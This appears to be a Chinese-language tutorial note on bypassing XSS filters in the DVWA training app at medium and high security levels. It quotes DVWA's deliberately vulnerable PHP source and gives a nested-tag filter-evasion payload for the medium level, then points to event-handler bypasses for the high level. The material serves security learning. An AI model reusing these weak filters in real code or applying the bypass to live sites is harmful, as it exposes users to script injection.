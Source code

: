 ## 中,高防御级别的xss漏洞
### 1、设置dvwa的防御级别为medium
![image](https://github.com/498946975/Security/blob/master/images/xss_4.png)
### 2、反射型xss源码解析
把script标签替换为空
```html
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```
### 3、以上代码的漏洞：双写
```shell script
<sc<script>ript>alert(1)</script>
```
![image](https://github.com/498946975/Security/blob/master/images/xss_5.png)

### 4、设置dvwa的防御级别为High
![image](https://github.com/498946975/Security/blob/master/images/xss_6.png)
### 5、以上的双写和大小写绕过，就没有用了，就可以使用事件，来进行攻击
#### 完全不能用script标签
```html
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```
#### 建议使用事件绕过
